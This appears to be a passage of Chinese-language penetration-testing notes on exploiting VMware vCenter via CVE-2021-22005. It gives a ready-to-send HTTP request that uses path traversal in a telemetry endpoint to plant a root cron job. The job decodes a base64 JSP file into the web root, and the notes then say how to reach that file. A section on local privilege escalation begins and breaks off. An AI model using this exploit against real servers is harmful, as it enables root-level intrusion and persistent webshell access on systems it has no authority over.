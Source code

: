 直接写定时任务，然后访问 https://{ip}/idm/..;/hello.jsp

```http
POST /analytics/telemetry/ph/api/hyper/send?_c=testb&_i=/../../../../../../etc/cron.d/test HTTP/1.1
Host: 172.16.8.111
Connection: close
Accept-Encoding: gzip, deflate
Accept: */*
User-Agent: Mozilla/5.0
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Content-Type: application/json
X-Deployment-Secret: abc
Content-Length: 154

* * * * * root echo PCUgICAgICAgIG91dC5wcmludGxuKCJIZWxsb1dvcmxkIik7ICAgICAgJT4=|base64 -d >/usr/lib/vmware-sso/vmware-sts/webapps/ROOT/hello.jsp
```

## DataAppAgentController

# 0x03 提权

## 利用 CVE-2021-22005 java-wrapper-vmon 本地提权（实战中没办法重启）

查看以 root 权限运行的进程，全都连接到 /usr/java/jre-vmware/bin/ 

```
ps aux | grep "^root"
```

![image-20230613140711235](attachments/image-20230613140711235.png)

/usr/lib/vmware-vmon/java-wrapper-vmon 权限
